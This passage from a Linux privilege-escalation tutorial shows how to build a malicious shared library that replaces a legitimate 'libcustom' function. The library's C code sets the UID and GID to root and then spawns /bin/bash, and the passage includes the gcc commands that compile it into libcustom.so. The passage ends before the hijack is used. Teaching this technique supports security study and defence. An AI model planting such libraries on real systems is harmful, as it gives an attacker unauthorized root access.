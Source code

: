 ```bash
user@pwn:~/so-files$ mkdir evil
user@pwn:~/so-files$ cd !$
cd evil
user@pwn:~/so-files/evil$ 
```

Lastly, we'll create the code that will be included in the malicious library file. I'll name this file as `libcustom.c`:

```bash
user@pwn:~/so-files/evil$ vim libcustom.c
```

This code sets the UID (0) which is the UID of the root user. Then it sets the GID of (0) which is the root group. The next three lines print a message of their own. The last line spawns a bash shell:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

void say_hi(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library!\n");
    printf("I'm trying to spawn a root shell...\n");
    printf("Check your shell!\n");
    system("/bin/bash");
}
```

Now copy the original header file to our current working directory:

```bash
user@pwn:~/so-files/evil$ cp ../libcustom.h .
user@pwn:~/so-files/evil$ ls
libcustom.c  libcustom.h
```

Let's create the malicious shared object:

```bash
user@pwn:~/so-files/evil$ gcc -c -Wall -Werror -fPIC libcustom.c
user@pwn:~/so-files/evil$ gcc -shared -o libcustom.so libcustom.o
user@pwn:~/so-files/evil$ ls -l
total 28
-rw-rw-r-- 1 user user   281 Dec 10 12:13 libcustom.c
-rw-rw-r-- 1 user user    88 Dec 10 12:14 libcustom.h
-rw-rw-r-- 1 user user  2104 Dec 10 12:14 libcustom.o
-rwxrwxr-x 1 user user 16360 Dec 10 12:14 libcustom.so
```

Now go back to the main directory:

```bash
user@pwn:~/so-files/evil$ cd ~/so-files
```
